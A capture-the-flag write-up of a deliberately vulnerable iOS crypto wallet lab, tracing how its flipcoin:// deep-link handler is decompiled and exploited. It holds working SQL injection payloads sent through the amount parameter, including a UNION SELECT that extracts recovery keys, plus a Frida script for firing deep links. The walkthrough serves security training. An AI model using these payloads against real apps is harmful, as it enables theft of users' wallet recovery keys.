## Understanding the challenge

So the app is a crypto banking app, it's currency is **flipcoin** and its wallet is **Flipcoin Wallet**. 
When installed, we are able to:

- Receive the coins using some sort of QR code.
- We are able to send coins to any other account.
- There is a tab for previous transcations.
- There is a tab for crypto news.

When we read the challenge description, it says the lab includes **SQLi** and **deeplinks** exploitation.

And our main goal is to find a way to extract **recovery keys** of other users.

## Analyzing Info.plist

As challenge says it includes deeplink exploitation, our first move is to check the info.plist file for the details:

```
  "CFBundleURLTypes" => [
    0 => {
      "CFBundleTypeRole" => "Editor"
      "CFBundleURLName" => "com.mobilehackinglab.flipcoinwallet"
      "CFBundleURLSchemes" => [
        0 => "flipcoin"
      ]
    }
```

So, the app registers the **`flipcoin://`** scheme so external links or other apps can launch it and pass data.

## Analyzing the binary

If the app is registering url scheme, there must be some sort of logic to handle the requests.
After some initial analysis using r2, I found this:


After decompiling it:

I found that the actual swift implementation of `SceneDelegate.scene(_:openURLContexts:)`
is in 
`sym.Flipcoin_Wallet.SceneDelegate.scene.allocator.openURLContexts...ySo7UISceneC_ShySo16UIOpenURLContextCGtF()`

I found it's address and decompiled it. The decompiled logic was actually extensive, so I used my great friend gpt and analyzed it.

So what I understood is:

- Performs checks whether the URL starts with `"amount"` or `"testnet"` parameters.
- Calls a `DatabaseHelper` function `sym.Flipcoin_Wallet.DatabaseHelper.allocator_...a_(0);`
- Some fragments of sql query is also visible:
```sql
  "WHERE amount > "
"AND currency='flipcoin' LIMIT 1"
```

So at this point, I've a basic understanding of how everything works in the app.

## Finding SQLi in DeepLink

Now we move towards finding the vuln in deeplink (which is sqli as given in the challenge)
#### Analyzing the QR Code
So I scanned the QR code from my other device, it generates the following request:
`http://flipcoin//0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=1`

So it's a deeplink that opens the app on the device which scans the QR code. ( to send coins to the device from which the QR was scanned ).

Remember, the function we analyzed before checks for the `testnet` parameter, I tried this and configured my iphone with burp to see if it makes any request to the url given in `testnet` and the script I used to trigger the deep link:
```js
function openURL(url) {

var workspace = ObjC.classes.LSApplicationWorkspace.defaultWorkspace();

return workspace.openSensitiveURL_withOptions_(

ObjC.classes.NSURL.URLWithString_(url),

null

);

}
```


Checking in burp, we got the following request:


In the device:


So one of the parameters is our own address, amount and id.

#### Hooking sqlite3 

As the binary uses sqlite3, I hooked the commands using:
https://codeshare.frida.re/@karim-moftah/ios-sqlite3



I found the flag but it is not the intended way, as we need to perform sqli injection to leak it from other person's device.

So we can see the prepared statement, and our amount is in the statement. I tried playing with the amount parameter:

```js
openURL("flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=0.0001%20AND%20id=2;&testnet=http://192.168.18.58")
```



So we successfully managed to change the `id` parameter, now the device shows `bitcoin` currency in place of `flipcoin` as we terminated the statement early.


#### Final Phase

Now we have found and exploited sqli. Last step requires leaking the recovery code (which is the flag) using sqli.

As we know the table has 5 columns:


Now as we know address is being reflected in the ui, we certainly know that 2nd column of a UNION statement will be reflected. To verify:
```js
openURL("flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=0.0001%20UNION%20SELECT%20'A','B','C','D','E';&testnet=ht
tp://192.168.18.58")
```


Now we just need to add a select statement to retrieve the flag.
- We will use objection to find the database and check the table name:
  


So the table name is `wallet`

Our query will be:

```js
openURL("flipcoin://0x252B2Fff0d264d946n1004E581bb0a46175DC009?amount=0.0001%20UNION%20SELECT%20'A',(SELECT%20recovery_key%20FR
OM%20wallet),'C','D','E';&testnet=http://192.168.18.58")

```

Running this finally got us the flag!!


FLAG: **`FLAG{fl1p_d4_c01nz}`**

It was a nice challenge overall.


For more detailed writeup, check out https://infosecwriteups.com/exploiting-unsanitized-url-handling-sql-injection-via-deep-links-in-ios-app-write-up-of-flipcoin-066899b09fc2 . My approach was kind of similar to his.